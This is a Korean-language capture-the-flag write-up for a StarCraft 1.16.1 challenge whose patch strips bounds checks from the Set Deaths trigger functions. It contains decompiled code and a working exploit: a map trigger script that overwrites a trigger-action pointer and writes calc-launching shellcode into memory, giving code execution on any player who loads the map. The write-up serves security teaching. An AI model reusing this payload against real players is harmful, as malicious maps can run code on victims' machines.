# StarCraft Exploit

Challenge : https://ctftime.org/task/11096

Summary : EUD (Extended Unit Death) Trigger, OOB, RCE


patch 파일로 생성된 취약점을 통한 스타크래프트 RCE Attack


## Prerequisite



- install_gateway.bat
  custom battle net 주소를 추가하는 스크립트 

- INSTRUCTIONS.md

  

- Starcraft.1.16.1.patch
  취약점을 만드는 패치 파일

- https://files.theabyss.ru/sc/starcraft.zip
  Starcraft 1.16.1 (brood war)


## Setting

### install StarCraft



### Apply patch

```shell
ch4rli3@TOPDESK:/mnt/d/bACE/starcraft_exploit/dist$ bspatch ../starcraft/StarCraft_Origin.exe ../starcraft/StarCraft.exe Starcraft.1.16.1.patch
```


## Analysis

bindiff 이용하여 분석한 결과, 다음 세 함수가 패치된 것을 확인하였음.



다음은 `0x4C5DD0`을 살펴본 예시인데 좌측은 original, 우측은 patched된 바이너리임.

해당 내용을 살펴보면 패치를 통해 몇몇 값을 체크하는 구간이 사라진 것을 확인할 수 있음.

Ghidra를 이용하여 분석한 결과 다음과 같았음.

### original

```c
undefined4 __fastcall FUN_004c5dd0(uint PlayerNum,uint UnitNum,undefined4 Value)

{
  undefined4 uVar1;
  
  switch(PlayerNum) {
  case 0xd:
    PlayerNum = DAT_006509b0;
    break;
  case 0xe:
    uVar1 = FUN_0045fd60(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0xf:
    uVar1 = FUN_0045fd00(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0x10:
    uVar1 = FUN_0045fca0(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0x11:
    uVar1 = FUN_0045fc40(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0x12:
  case 0x13:
  case 0x14:
  case 0x15:
    uVar1 = FUN_0045fbe0(UnitNum,Value);
    return uVar1;
  case 0x16:
  case 0x17:
  case 0x18:
  case 0x19:
    return 0;
  case 0x1a:
    uVar1 = FUN_0045fdd0(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  }
  if (7 < PlayerNum) {
    return 0;
  }
  if (0xe8 < (ushort)UnitNum) {
    return 0;
  }
  switch(UnitNum & 0xffff) {
  case 0xe5:
    return 0;
  case 0xe6:
    *(undefined4 *)(&DAT_00581e74 + PlayerNum * 4) = Value;
    return 0;
  case 0xe7:
    *(undefined4 *)(&DAT_00581fc4 + PlayerNum * 4) = Value;
    return 0;
  case 0xe8:
    *(undefined4 *)(&DAT_005820e4 + PlayerNum * 4) = Value;
    return 0;
  }
  if (0xe3 < (ushort)UnitNum) {
    return 0;
  }
  *(undefined4 *)(&DAT_0058a364 + (PlayerNum + (UnitNum & 0xffff) * 0xc) * 4) = Value;
  return 0;
}
```

### patched

```c
undefined4 __fastcall FUN_004c5dd0(int PlayerNum,uint UnitNum,undefined4 Value)

{
  undefined4 uVar1;
  
  switch(PlayerNum) {
  case 0xd:
    PlayerNum = DAT_006509b0;
    break;
  case 0xe:
    uVar1 = FUN_0045fd60(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0xf:
    uVar1 = FUN_0045fd00(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0x10:
    uVar1 = FUN_0045fca0(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0x11:
    uVar1 = FUN_0045fc40(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  case 0x12:
  case 0x13:
  case 0x14:
  case 0x15:
    uVar1 = FUN_0045fbe0(UnitNum,Value);
    return uVar1;
  case 0x16:
  case 0x17:
  case 0x18:
  case 0x19:
    return 0;
  case 0x1a:
    uVar1 = FUN_0045fdd0(UnitNum,Value,FUN_004c5dd0);
    return uVar1;
  }
  switch(UnitNum & 0xffff) {
  case 0xe5:
    return 0;
  case 0xe6:
    *(undefined4 *)(&DAT_00581e74 + PlayerNum * 4) = Value;
    return 0;
  case 0xe7:
    *(undefined4 *)(&DAT_00581fc4 + PlayerNum * 4) = Value;
    return 0;
  case 0xe8:
    *(undefined4 *)(&DAT_005820e4 + PlayerNum * 4) = Value;
    return 0;
  default:
    *(undefined4 *)(&DAT_0058a364 + (PlayerNum + (UnitNum & 0xffff) * 0xc) * 4) = Value;
    return 0;
  }
}
```


패치를 통해 다음의 체크 구간이 사라진 것을 확인할 수 있음.

```c
  if (7 < PlayerNum) {
    return 0;
  }
  if (0xe8 < (ushort)UnitNum) {
    return 0;
  }
  if (0xe3 < (ushort)UnitNum) {
    return 0;
  }
```


결과적으로 패치를 통해 PlayerNum과 UnitNum에 대한 검증이 사라져, oob 취약점이 발생한다는 것을 확인할 수 있음.

```c
*(undefined4 *)(&DAT_0058a364 + (PlayerNum + (UnitNum & 0xffff) * 0xc) * 4) = Value;
```


그러나 해당 함수들이 뭐하는 함수인지를 파악할 수 가 없었는데, 스타크래프트는 워낙 유명하다보니 분석한 선지자들이 많아서 각 offset마다 어떤 구조체를 사용하는지에 대한 자료들이 다 있었음.

 http://farty1billion.dyndns.org/EUDDB/



결과적으로 `0x58a364` 주소는 Death Table의 시작주소이며, 각 유닛마다 플레이어 별로 나누어 death count를 저장하는 이차원 배열임. `int death_table[UnitNum][PlayerNum]` 정도로 나타낼 수 있음. 




Death Table은 스타크래프트 유즈 맵에서 사용하는 trigger 중 `Set Deaths`라는 trigger에서 사용하는 Table이며, Trigger는 유즈맵을 만들 때 사용하는 스크립트 기반의 코드임.

각 Condition에 따른 Action으로 구성되어있으며, 다음과 같이 사용됨. 

```c
Trigger("All players"){
Conditions:
	Bring("All players", "Terran SCV", "Location 0", At least, 1);

Actions:
	Display Text Message(Always Display, "[DEBUG]  Call  ACTION_Set_Deatchs !");
	Move Unit("All players", "Any unit", All, "Location 0", "Location 1");
	Set Deaths("Player 1", "Terran Marine", Set To, 1);
	Preserve Trigger();
}
```

`Set Deaths`는 Death Table의 값을 Set/Add/Sub 할 수 있는데, 이 세가지 함수에 OOB를 일으킬 수 있는 patch 파일이 문제로 제공됨.


위 시나리오대로라면, Attacker와 Victim이 같은 게임을 시작할 때, 맵의 trigger들을 읽어오면서 Aribitrary read/write이 가능함.


## Exploit

어떻게 exploit을 할 지 고민하다가 포인터와 관련된 Table도 있을 것 같아서 찾아봤는데, `0x512800` 주소에 Trigger Action Function Array가 있었음.



Trigger Action 역시 메모리 내의 코드 영역에 존재하며, 이에 대한 관리를 배열로 하고 있었음. 실제로 메모리를 살펴보니 다음과 같이 pointer array를 확인할 수 있음.



이 배열을 통하여 각 Action을 호출하는 곳을 찾고싶어 xref 기능을 이용하여 찾아보니 다음과 같이 찾을 수 있었음.





덮어씌울 적당한 Action을 찾아보다가,  `0x512878`에 위치한 `Mute Unit Speech()`이라는 Action의 pointer를 덮어씌워 EIP를 control하기로 했음.




또한 메모리 맵을 살펴보니, 옛날 바이너리의 특성인지 모르겠지만 ERW 권한이 있는 영역이 꽤 존재했음. 또한 ASLR이 없었기때문에 적당한 위치에 shellcode를 올리고 해당 위치로 EIP를 변경하여 RCE가 가능했음.




Set Death를 이용하여 메모리를 덮어쓸 수 있는데, 이는 EUD(Extended Unit Death)라는 방법으로 이미 수 많은 유즈맵 제작자들이 사용하던 버그여서(이 취약점은 1.13.1f에 패치되었음.) 아예 여러 Editor에서 제작자들이 편하게 사용하기 위한 함수를 제공함. ScmDraft에서 다음과 같은 `MemoryAddr()` 함수를 지원하여 편하게 스크립트를 짤 수 있었음.




## Payload

적당히 맵 메이커를 이용하여 맵을 만들어주면 됨.



다음의 Trigger를 가진 유즈 맵 파일을 로딩하면 됨. 쉘코드는 그냥 calc 띄워주는 거를 poc로 사용했음.

```shell
Trigger("All players"){
Conditions:
	Always();

Actions:
	Display Text Message(Always Display, "[EXPLOIT] is running...");
}

//-----------------------------------------------------------------//

Trigger("All players"){
Conditions:
	Bring("All players", "Terran SCV", "Location 0", At least, 1);

Actions:
	Display Text Message(Always Display, "[DEBUG]  Call  ACTION_Set_Deatchs !");
	Move Unit("All players", "Any unit", All, "Location 0", "Location 1");
	Set Deaths("Player 1", "Terran Marine", Set To, 1);
	Preserve Trigger();
}

//-----------------------------------------------------------------//

Trigger("All players"){
Conditions:
	Bring("All players", "Terran SCV", "Location 2", At least, 1);

Actions:
	MemoryAddr(0x00512878, Set To, 2031616);
	MemoryAddr(0x001f0000, Set To, 2338642737);
	MemoryAddr(0x001f0004, Set To, 2139828347);
	MemoryAddr(0x001f0008, Set To, 478120716);
	MemoryAddr(0x001f000c, Set To, 2332575627);
	MemoryAddr(0x001f0010, Set To, 1066082423);
	MemoryAddr(0x001f0014, Set To, 856456832);
	MemoryAddr(0x001f0018, Set To, 3347706485);
	MemoryAddr(0x001f001c, Set To, 2335995907);
	MemoryAddr(0x001f0020, Set To, 3254876247);
	MemoryAddr(0x001f0024, Set To, 18905739);
	MemoryAddr(0x001f0028, Set To, 2346551751);
	MemoryAddr(0x001f002c, Set To, 3321999156);
	MemoryAddr(0x001f0030, Set To, 1128169797);
	MemoryAddr(0x001f0034, Set To, 1969317234);
	MemoryAddr(0x001f0038, Set To, 142508530);
	MemoryAddr(0x001f003c, Set To, 1936024431);
	MemoryAddr(0x001f0040, Set To, 2055989621);
	MemoryAddr(0x001f0044, Set To, 1724317988);
	MemoryAddr(0x001f0048, Set To, 2339318923);
	MemoryAddr(0x001f004c, Set To, 3338738810);
	MemoryAddr(0x001f0050, Set To, 4239359115);
	MemoryAddr(0x001f0054, Set To, 3649685249);
	MemoryAddr(0x001f0058, Set To, 3797155761);
	MemoryAddr(0x001f005c, Set To, 1633904893);
	MemoryAddr(0x001f0060, Set To, 3800654700);
	MemoryAddr(0x001f0064, Set To, 1397969490);
	MemoryAddr(0x001f0068, Set To, 1397969747);
	MemoryAddr(0x001f006c, Set To, 3623834450);
	Mute Unit Speech();
}

//-----------------------------------------------------------------//
```


## Demo

https://www.youtube.com/watch?v=4ypV1Cbl0YY


## Reference

- https://zeta-two.com/software/exploit/2020/04/05/exploiting-starcraft1.html
- https://kainashi.github.io/midnightsun2020/starcraft.html